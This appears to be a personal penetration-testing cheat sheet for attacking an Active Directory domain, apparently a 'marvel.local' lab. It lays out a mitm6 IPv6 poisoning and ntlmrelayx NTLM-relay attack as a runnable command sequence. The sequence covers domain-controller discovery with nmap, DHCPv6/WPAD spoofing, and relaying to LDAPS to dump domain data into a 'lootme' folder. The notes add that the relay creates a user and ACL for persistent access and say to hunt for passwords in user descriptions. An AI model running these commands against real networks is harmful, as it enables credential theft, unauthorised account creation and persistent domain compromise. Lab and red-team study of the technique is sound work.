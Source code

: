 mitim6 (search for dirk jan m)

# mitm6:
```
mitm6 -d (domain to attack like marvel.local)
then use:
ntlmrelayx.py -6 -t ldaps://192.168.57.140 -wh fakepad.marvel.local -l lootme
```



## IPv6: mitm6
1. install from github
```
cd /opt; git clone https://github.com/fox-it/mitm6.git; cd mitm6
```
2. get Domain Controller IP 
Domain controllers will show port 389 running the Microsoft Windows AD LDAP service:
```
nmap -p389 -sV <IP-range>
```
Expected Output:
```
PORT    STATE SERVICE VERSION 
389/tcp open  ldap    Microsoft Windows AD LDAP (Domain:TESTDOMAIN, Site: TEST) 
```
OR:
```
nmap -p 389 -T4 -A -v --script ldap-rootdse <IP-range>
```
3. get Domain name using nmap
```
nmap --script smb-enum-domains.nse -p445 <host>
sudo nmap -sU -sS --script smb-enum-domains.nse -p U:137,T:139 <host>
```
OR:
```
nmap --script smb-os-discovery.nse -p445 127.0.0.1
sudo nmap -sU -sS --script smb-os-discovery.nse -p U:137,T:139 127.0.0.1
```

4. run mitm6
```
sudo python mitm6.py -d <domain>.local
```

5. run ntmlrelayx.py at the same time
```
ntmlrelayx.py -6 -t ldaps://<DC-IP> -wh fakewpad.<domain>.local -l lootme
```
6. check on results:
all captured info will be saved to lootme folder in the directory you ran this command. when someone logs in to a computer on the network this will try to create a user and acl for persistent access. 
```
firefox ./lootme/domain_users.html
```
Always check for passwords in the description. 

